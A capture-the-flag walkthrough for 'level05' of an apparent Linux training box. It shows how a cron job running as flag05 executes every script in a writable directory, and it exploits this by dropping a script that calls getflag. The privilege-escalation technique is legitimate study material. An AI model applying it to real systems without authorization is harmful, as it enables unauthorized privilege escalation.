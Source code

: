## level05

The system welcoming us with this message: `You have new mail.`

```bash
$ > cat $MAIL

*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check this out: [сrontab.guru](https://crontab.guru/#*/2_*_*_*_*)

As we can understand, a cron is running on the system.
To ensure that use `top` command.

Every two minutes `/usr/sbin/openarenaserver` will be run with flag05 privileges.

From the beginning I started look the info about openarenaserver, but it is worthless as <br>
`/usr/sbin/openarenaserver` is a bash script:
```bash
$> cat /usr/sbin/openarenaserver

#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Every two minutes, all the files in the `/opt/openarenaserver/` will be run using bash and have only 5sec to execute. 

If we look at the acl of this folder, we'll see that level05 and flag05 are allowed to write into this directory.
```bash
getfacl /opt/openarenaserver
```

So the solution is to create a script, change the exec bit and wait 2 minutes.
```bash
echo 'getflag > /opt/openarenaserver/flag' > run.sh
chmod +x run.sh
```

:warning: Watch carefully and do not miss the flag, after 2 minutes script will delete it!